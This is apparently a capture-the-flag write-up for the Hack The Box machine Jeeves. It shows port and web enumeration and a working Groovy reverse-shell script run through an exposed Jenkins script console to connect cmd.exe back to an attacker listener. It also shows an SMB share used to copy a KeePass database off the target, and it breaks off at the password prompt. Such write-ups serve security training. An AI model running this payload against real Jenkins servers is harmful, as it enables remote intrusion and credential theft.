Jeeves
Introduction
Jeeves is a medium Windows box that focuses on web exploitation and privilege escalation using alternative paths. It’s a straightforward machine but introduces some uncommon techniques.
Recon
Initial Port Scan
I started by conducting a port scan using Nmap to identify open ports and services running on the target:
b4go@parrot-~/HTB/Jeeves $ nmap -sCV -p- --open -oA jeeves 10.10.10.63
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-16 09:32 CEST
Nmap scan report for 10.10.10.63
Host is up (0.051s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_ Potentially risky methods: TRACE
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open http Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 4h59m58s, deviation: 0s, median: 4h59m57s
| smb2-time:
| date: 2025-04-16T12:34:48
|_ start_date: 2025-04-16T12:26:02
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 153.02 seconds
Enumeration
Service Enumeration
Let's check port by port what we can find...
Port 80
It's a simple web page with an input text field:
I checked a bit but couldn't find a way in, anything we type we only get an error so I decide to move forward.
Port 135
We have no credentials so I try to enumerate with a null session
b4go@parrot-~/HTB/Jeeves $ rpcclient -U '' -N 10.10.10.63
Cannot connect to server. Error was NT_STATUS_ACCESS_DENIED
Port 445
I try null session again or a guest:guest but is not valid, I try to enumerate vulnerabilities with nmap but still nothing to be found here.
b4go@parrot-~/HTB/Jeeves $ smbmap -H 10.10.10.63
[!] Authentication error on 10.10.10.63
b4go@parrot-~/HTB/Jeeves $ smbmap -H 10.10.10.63 -u guest -p guest
[!] Authentication error on 10.10.10.63
b4go@parrot-~/HTB/Jeeves $ nmap --min-rate 5000 -p139,445 --script smb-vuln* 10.10.10.63 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-16 11:21 CEST
Nmap scan report for jeeves.htb (10.10.10.63)
Host is up (0.076s latency).
PORT STATE SERVICE
139/tcp filtered netbios-ssn
445/tcp open microsoft-ds
Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
Nmap done: 1 IP address (1 host up) scanned in 12.12 seconds
Port 50000
We get to this page which does give relevant information, the link get us to the jetty official page so we can only fuzz and expect to find something.
Fuzzing
I start by enumerating port 80 and see to check for exposed directories here there is anything.
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.10.63/FUZZ
:: Method : GET
:: URL : http://10.10.10.63/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
# [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 173ms]
[Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 173ms]
# [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 174ms]
# This work is licensed under the Creative Commons [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 173ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 173ms]
# [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 174ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 174ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 174ms]
# Copyright 2007 James Fisher [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 174ms]
# on at least 3 different hosts [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 174ms]
# Priority-ordered case-sensitive list, where entries were found [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 176ms]
# directory-list-2.3-small.txt [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 184ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 192ms]
# [Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 204ms]
[Status: 200, Size: 503, Words: 38, Lines: 17, Duration: 47ms]
:: Progress: [87664/87664] :: Job [1/1] :: 735 req/sec :: Duration: [0:01:52] :: Errors: 0 ::
Let's move on to port 50000
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.10.63:50000/FUZZ
:: Method : GET
:: URL : http://10.10.10.63:50000/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
askjeeves [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 71ms]
:: Progress: [87664/87664] :: Job [1/1] :: 813 req/sec :: Duration: [0:01:52] :: Errors: 0 ::
```
We find the /askjeeves directory:
Exploitation
We spot the jenkins version (2.87) which is outdated, current version for jenkins right now is 2.506, there maybe vulnerabilities but let's look around. If we go to build executor status we see the machine running the jenkins
We see a node (master) as Windows 10 which is available to take jobs, let's move forward and click on master.
Left side we have a script console:
This script console let us run groovy scripts that execute directly in the server, this way we can get a reverse shell by setting up a listener and executing the script:
String host = "10.10.14.2";
int port = 443;
String cmd = "cmd.exe";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while (!s.isClosed()) {
while (pi.available() > 0) so.write(pi.read());
while (pe.available() > 0) so.write(pe.read());
while (si.available() > 0) po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {
p.exitValue();
break;
} catch (Exception e) {}
}
p.destroy();
s.close();

simply change the host and port parameters and hit run in the script console while a listener is on
b4go@parrot-~ $ sudo rlwrap nc -lvnp 443
[sudo] password for b4go:
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.63] 49876
icrosoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.
C:\Users\Administrator\.jenkins>we get in as user kohsuke and get the flag:
Privilege escalation
First commands first, I try whoami /priv to get a list of privileges available:
I tried to elevate with godpotato/printspoofer without luck so next step is to enumerate some folders, I always start with home directories, downloads, documents, desktop...
In the documents folder and find a .kdbx file that can be useful, I will download it to my machine.
We create a shared folder with
b4go@parrot-~/HTB/Jeeves $ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
in the windows machine:
 We try to open it with keepassxc but it is password protected, as expected:
